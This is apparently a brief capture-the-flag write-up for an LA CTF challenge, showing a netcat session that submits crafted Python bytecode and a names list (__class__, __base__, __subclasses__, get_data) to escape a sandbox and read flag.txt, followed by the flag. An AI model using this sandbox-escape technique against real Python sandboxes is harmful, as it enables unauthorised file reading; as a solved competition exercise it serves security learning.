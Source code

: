 ```bash
~/tmp/lactf $ nc lac.tf 31130
consts: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,flag.txt
names: __class__,__base__,__subclasses__,get_data
code: 64006d006d016d02830064001e000200010019006d036401640183025300
here goes!
b'flag{maybe i should_only_allow_nops_next_time}\n'
```

**Flag:** `flag{maybe_i_should_only_allow_nops_next_time}`
